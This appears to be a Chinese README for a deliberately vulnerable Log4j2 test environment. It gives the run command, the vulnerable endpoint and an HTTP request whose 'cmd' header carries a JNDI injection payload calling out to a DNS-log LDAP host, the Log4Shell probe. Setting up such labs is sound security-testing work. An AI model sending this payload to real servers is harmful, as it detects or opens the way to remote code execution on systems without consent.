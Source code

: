 ### log4j2环境使用方法

jar：

java -jar运行

漏洞页面：

http://ip:8080/hello

注入点：

报头中的cmd字段中

```
GET /hello HTTP/1.1
Host: ip:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
cmd:${jndi:ldap://hag4gn.dnslog.c}
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

源码：

运行该文件即可

![image-20211213230151388](./picture/1.png)

漏洞页面文件，可自行修改

![image-20211213230217170](./picture/2.png)
